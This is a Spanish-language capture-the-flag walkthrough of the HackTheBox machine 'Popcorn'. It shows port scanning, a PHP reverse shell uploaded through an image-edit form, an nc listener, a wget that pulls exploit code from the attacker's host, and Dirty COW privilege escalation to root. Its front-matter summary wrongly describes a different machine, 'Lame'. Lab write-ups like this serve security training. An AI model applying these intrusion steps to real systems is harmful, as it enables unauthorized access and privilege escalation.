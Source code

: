 ```yaml
---
title: Popcorn
date: '2023-06-30'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Lame is a beginner-level machine that only requires one exploit to gain root access. It was the first machine published on Hack The Box and is often the first machine for new users.'
images: ['/static/images/htb/lame/Lame.png']
---
```


![Portada](/static/images/htb/popcorn/Popcorn.png)

# [MIRA EL VIDEO TUTORIAL](https://youtu.be/xYD4cLwgwDw)

<TOCInline toc={props.toc} exclude="Introduccion" />

## RECONOCIMIENTO

### Ping

Primero, verificamos que estamos en la misma red que la máquina víctima enviando un paquete de datos a la dirección IP 10.10.10.6 usando el comando `ping`.

```js
ping -c 4 10.10.10.6
```

- `-c` : Número de paquetes de solicitud de eco ICMP (Protocolo de Mensajes de Control de Internet) que se enviarán.

![Ping](/static/images/htb/popcorn/1.png)

### Nmap

A continuación, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.6 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Reporta solo los puertos que se encuentran abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Ping](/static/images/htb/popcorn/2.png)

Cuando obtenemos la lista de puertos abiertos en la máquina víctima, realizamos otro escaneo pero solo en aquellos reportados como abiertos por Nmap, incluyendo las siguientes opciones:

- `-sC` : Activa el escaneo utilizando scripts de servicio y enumeración predeterminados. Los scripts se ejecutan contra los puertos abiertos para recopilar información adicional sobre los servicios en ejecución.
- `-sV` : Realiza la detección de versiones de los servicios encontrados en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando varios métodos, como enviar solicitudes específicas y comparar las respuestas recibidas.
- `-p` : Especifica los puertos a escanear. En este caso, se escanean los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Instruye a Nmap a realizar el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes de solicitud de eco ICMP.

```js
  nmap -sC -sV -p22,80 10.10.10.6 -Pn
```

![Ping](/static/images/htb/popcorn/3.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Versión             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 5.1p1       |
| **_80/tcp_**     | http     | Apache httpd 2.2.12 |

## ENUMERACIÓN

### Puerto 80 - http

Realizamos fuzzing de directorios con ffuf.

- `-w`: La lista de palabras que usaremos para el fuzzing.
- `-u`: La URL contra la cual realizaremos el fuzzing.

![Ping](/static/images/htb/popcorn/4.png)

Y encontramos tres directorios: `test`, `torrent` y `rename`. El más útil en esta parte es `torrent`.

Mientras enumeraba la página, encontré un falso positivo de SQLi en el formulario, lo que me permitió volcar toda la base de datos, pero sin encontrar nada útil.

![Ping](/static/images/htb/popcorn/5.png)

![Ping](/static/images/htb/popcorn/6.png)

![Ping](/static/images/htb/popcorn/7.png)

Hay una zona de carga de archivos, pero necesito registrarme para poder verla.
![Ping](/static/images/htb/popcorn/8.png)

Necesitamos subir un archivo torrent para que luego podamos editar la imagen que nos permitirá acceder al servidor.

![Ping](/static/images/htb/popcorn/9.png)

![Ping](/static/images/htb/popcorn/10.png)

Tenemos la opción de editar la foto del torrent que subimos.
![Ping](/static/images/htb/popcorn/11.png)

![Ping](/static/images/htb/popcorn/12.png)

Elegimos cualquier foto e interceptamos la solicitud para editarla.
![Ping](/static/images/htb/popcorn/13.png)

En este caso, utilizo la shell de pentest monkey.
![Ping](/static/images/htb/popcorn/14.png)

Elimino los metadatos de la foto y pego la shell, cambiando la IP y el puerto.
La IP es la de la VPN, y el puerto es donde recibiremos la shell. En la shell, configuro el puerto 4444 para escuchar con:

```js
nc -lvnp 4444
```

![Ping](/static/images/htb/popcorn/15.png)

![Ping](/static/images/htb/popcorn/16.png)

Después de subir la shell, actualizamos la página y la abrimos en otra pestaña, luego vamos a `/torrent/upload` para activarla.
![Ping](/static/images/htb/popcorn/29.png)

![Ping](/static/images/htb/popcorn/30.png)

Hacemos clic en nuestro archivo .php y recibiremos la shell en el puerto que está escuchando.
![Ping](/static/images/htb/popcorn/17.png)

Con acceso al servidor, encontramos el `user.txt` ubicado en el directorio del usuario George.
![Ping](/static/images/htb/popcorn/18.png)

![Ping](/static/images/htb/popcorn/19.png)

## ROOT

Comenzando con el reconocimiento, encontramos la versión del kernel, que es vulnerable a [Dirty Cow](https://en.wikipedia.org/wiki/Dirty_COW).

```js
uname - r
```

El comando `uname -r` se utiliza en sistemas operativos basados en Unix y Linux para mostrar la versión del [kernel](<https://en.wikipedia.org/wiki/Kernel_(operating_system)#:~:text=The%20kernel%20is%20a%20computer,mitigating%20conflicts%20between%20different%20processes.>) en uso.
![Ping](/static/images/htb/popcorn/22.png)

![Ping](/static/images/htb/popcorn/23.png)

![Ping](/static/images/htb/popcorn/24.png)

Descargamos el exploit a nuestra máquina y comenzamos un servidor con python, mientras que desde la máquina víctima lo descargamos con `wget`.

```js
wget http://IP_VPN:PORT/exploit.c
```

![Ping](/static/images/htb/popcorn/25.png)

![Ping](/static/images/htb/popcorn/26.png)

Para compilar un exploit en C:

- `gcc`: Es el compilador GNU para el lenguaje de programación C. Se utiliza para compilar código fuente en C y convertirlo en un archivo ejecutable.

- `-pthread`: Esta opción le dice al compilador que use la biblioteca de hilos POSIX (pthreads). Esto es útil si el programa utiliza hilos para realizar tareas concurrentes.

- `dirty.c`: Este es el archivo que se va a compilar.

- `-o dirty`: Esta opción le dice al compilador el nombre del archivo ejecutable de salida.

- `-lcrypt`: Esta opción le dice al compilador que enlace el programa con la biblioteca `libcrypt`, que proporciona funciones de cifrado y descifrado.

Entonces, el comando completo `gcc -pthread dirty.c -o dirty -lcrypt` compila el archivo `dirty.c` utilizando la biblioteca de hilos POSIX y la biblioteca de cifrado, produciendo un ejecutable llamado `dirty`. Después de eso, lo ejecutamos. Agregamos una contraseña al usuario `firefart` que se crea, y luego presionamos `CTRL + C` porque se cuelga.
![Ping](/static/images/htb/popcorn/27.png)

Cambiamos al usuario `firefart` y obtenemos privilegios de root.
![Ping](/static/images/htb/popcorn/28.png)
